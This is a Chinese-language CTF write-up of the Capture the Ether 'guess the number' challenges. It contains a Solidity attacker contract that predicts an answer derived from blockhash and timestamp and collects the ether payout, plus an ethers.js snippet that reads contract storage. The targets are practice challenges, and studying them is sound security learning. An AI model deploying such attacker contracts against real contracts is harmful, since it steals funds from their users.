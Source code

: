 这是 Solidity 代码

```solidity
pragma solidity ^0.4.21;
contract B {
     bytes32 public answer;
     uint8 public an;
     uint256 public nowTime;
     bytes public abiencode;
     constructor () public {}
     function test() public {
          abiencode = abi.encode(0xf4a21d405adf9d652247a5c203e4744423df861519d3545e0ded03d19da7bd05, 1657943496);
          answer = keccak256(abiencode);
          an = uint8(answer);
          nowTime = now;
     }
}
```

除此之外, 还有另外一种解题方法, 去通过拿存储值的方式, 直接拿 answer 这个值, 虽然他不是 public 的, 但是也是存储在区块链里的

```solidity
const provider = new ethers.providers.JsonRpcProvider("https://ropsten.infura.io/v3/xxxxxxxxxxxxxxxx")
const end = await provider.getStorageAt("0x41689832B8301c47A9aBB2e3bdAaa756F84C1237", 0);
console.log(end)
```

返回 Check , 完成 ✅

---

###### Guess the new number

这个题更难一些, 这里的`answer`不是固定的, 每次发起 guess 这笔 tx 时, answer 会自动计算值, 核心原理和上一题一样, 只不过 在这里, 我们没有办法确定 `now` 这个具体的值, 因此 `走一层合约, 再发起tx是不错的原则` ,部署完 `attacker` 合约之后, 调用`attack`函数的时候, 记得需要发送 1ETH

```solidity
pragma solidity ^0.4.21;
contract GuessTheNewNumberChallenge {
    function GuuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }
    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(blockhash(block.number - 1), now));
        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}

contract attacker {
    function attack() public payable {
        uint8 result = uint8(keccak256(blockhash(block.number - 1), now));
        GuessTheNewNumberChallenge target = GuessTheNewNumberChallenge(0x2fE75b0259D2fB1621A9508Be2De4aeEF306E519);
        target.guess.value(1 ether)(result);
    }
    function () public payable {
    }
}
```
